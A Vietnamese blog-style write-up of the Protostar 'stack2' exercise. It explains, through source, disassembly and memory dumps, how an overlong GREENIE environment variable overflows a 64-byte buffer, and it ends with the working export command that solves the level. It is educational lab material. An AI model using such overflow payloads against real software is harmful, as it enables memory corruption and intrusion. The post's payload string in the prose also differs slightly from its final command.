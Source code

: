 ```yaml
---
layout: post
title: stack2
---
```

stack2 cũng tương tự như stack0 và stack1.
Trong bài này, chúng ta tiếp tục sử dụng phương thức lưu đè vùng bộ nhớ của biến khác khi hàm `strcpy` được sử dụng.
Source code của stack2 như sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Khi disassemble hàm `main`, ta được đoạn chương trình sau:
```asm
0x08048494 <main+0>:    push   ebp
0x08048495 <main+1>:    mov    ebp,esp
0x08048497 <main+3>:    and    esp,0xfffffff0
0x0804849a <main+6>:    sub    esp,0x60
0x0804849d <main+9>:    mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:   call   0x804837c <getenv@plt>
0x080484a9 <main+21>:   mov    DWORD PTR [esp+0x5c],eax
0x080484ad <main+25>:   cmp    DWORD PTR [esp+0x5c],0x0
0x080484b2 <main+30>:   jne    0x80484c8 <main+52>
0x080484b4 <main+32>:   mov    DWORD PTR [esp+0x4],0x80485e8
0x080484bc <main+40>:   mov    DWORD PTR [esp],0x1
0x080484c3 <main+47>:   call   0x80483bc <errx@plt>
0x080484c8 <main+52>:   mov    DWORD PTR [esp+0x58],0x0
0x080484d0 <main+60>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484d4 <main+64>:   mov    DWORD PTR [esp+0x4],eax
0x080484d8 <main+68>:   lea    eax,[esp+0x18]
0x080484dc <main+72>:   mov    DWORD PTR [esp],eax
0x080484df <main+75>:   call   0x804839c <strcpy@plt>
0x080484e4 <main+80>:   mov    eax,DWORD PTR [esp+0x58]
0x080484e8 <main+84>:   cmp    eax,0xd0a0d0a
0x080484ed <main+89>:   jne    0x80484fd <main+105>
0x080484ef <main+91>:   mov    DWORD PTR [esp],0x8048618
0x080484f6 <main+98>:   call   0x80483cc <puts@plt>
0x080484fb <main+103>:  jmp    0x8048512 <main+126>
0x080484fd <main+105>:  mov    edx,DWORD PTR [esp+0x58]
0x08048501 <main+109>:  mov    eax,0x8048641
0x08048506 <main+114>:  mov    DWORD PTR [esp+0x4],edx
0x0804850a <main+118>:  mov    DWORD PTR [esp],eax
0x0804850d <main+121>:  call   0x80483ac <printf@plt>
0x08048512 <main+126>:  leave
0x08048513 <main+127>:  ret
```

Biến `variable` lấy giá trị của environment variable có tên `"GREENIE"`.
Sau đó, giá trị này được copy sang cho `buffer` qua hàm `strcpy`.
Rõ ràng, tương tự như 2 bài trước, nếu giá trị của `variable` lớn hơn 64 byte thì khi copy sang `buffer` sẽ bị tràn sang vùng nhớ của biến khác.
Cụ thể, biến `modified` chiếm 4 byte, bắt đầu từ `esp + 0x58`, còn biến `buffer` chiếm 64 byte bộ nhớ từ `esp + 0x18` đến `esp + 0x57`.
`variable` được lưu bắt đầu từ địa chỉ `esp + 0x5c`. Lưu ý, `variable` có dạng pointer, nên giá trị dùng để copy sang `buffer` thật sự nằm ở vùng nhớ có địa chỉ lưu trong `variable`.

Để dễ tưởng tượng, sau đây là 96 byte bộ nhớ bắt đầu từ địa chỉ `esp`, trước khi `variable` nhận giá trị từ environment variable.
Trong ví dụ này, environment variable có giá trị là `"hello"`, tương đương với chuỗi byte `0x68` `0x65` `0x6c` `0x6c` `0x6f`.
Phân biệt theo màu: <span style="color:aqua">buffer</span>, <span style="color:orangered">modified</span>, và <span style="color:orangered">modified</span>.
<pre>
0xbffff730:     0x080485e0      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff740:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0xbffff758</span>      <span style="color:aqua">0xb7eada75</span>
0xbffff750:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff768</span>      <span style="color:aqua">0x08048358</span>
0xbffff760:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff798</span>      <span style="color:aqua">0x08048549</span>
0xbffff770:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048530</span>      <span style="color:aqua">0xbffff798</span>
0xbffff780:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:orangered">0x00000000</span>      <span style="color:yellow">0xbffff9ec</span>
...
<span style="color:yellow">0xbffff9ec</span>:      "hello"
</pre>

<pre>
0xbffff730:     0xbffff748      0xbffff9ec      0xb7fff8f8      0xb7f0186e
0xbffff740:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0x6c6c6568</span>      <span style="color:aqua">0xb7ea006f</span>
0xbffff750:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff768</span>      <span style="color:aqua">0x08048358</span>
0xbffff760:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff798</span>      <span style="color:aqua">0x08048549</span>
0xbffff770:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048530</span>      <span style="color:aqua">0xbffff798</span>
0xbffff780:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:orangered">0x00000000</span>      <span style="color:yellow">0xbffff9ec</span>
...
<span style="color:yellow">0xbffff9ec</span>:     0x6c6c6568      0x4f4c006f      0x4d414e47      0x73753d45
</pre>

Để exploit được chương trình, ta sẽ gán 68 byte giá trị cho environment variable `"GREENIE"` là `"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\0x0d0a0d0a"`
Nếu sử dụng input như bài trước, ta sẽ sửa được giá trị của `modified` thành `0x00000078`.
Sau đây là bộ nhớ sau `strcpy`.
(`esp` có thể thay đổi tùy khi environment variable `"GREENIE"` thay đổi, nhưng các offset từ `esp` để tìm ra đúng biến thì giữ nguyên.)

<pre>
0xbffff6f0:     0xbffff708      0xbffff9ad      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0x41414141</span>      <span style="color:aqua">0x42424242</span>
0xbffff710:     <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>      <span style="color:aqua">0x46464646</span>
0xbffff720:     <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>      <span style="color:aqua">0x32323232</span>
0xbffff730:     <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>      <span style="color:aqua">0x36363636</span>
0xbffff740:     <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x0d0a0d0a</span>      <span style="color:yellow">0xbffff9</span>00
...
<span style="color:yellow">0xbffff9ad</span>:      "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\n\r\n\r"
</pre>

Cũng lưu ý thêm, biến `variable` có 1 byte đầu tiên bị ảnh hưởng do chuỗi nhập vào là kiểu null-terminated.
Giá trị mong đợi của nó là `0xbffff9ad`.

## Ref
```bash
user@protostar:~$ export GREENIE=$'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\x0a\x0d\x0a\x0d'
user@protostar:~$ stack2
you have correctly modified the variable
```
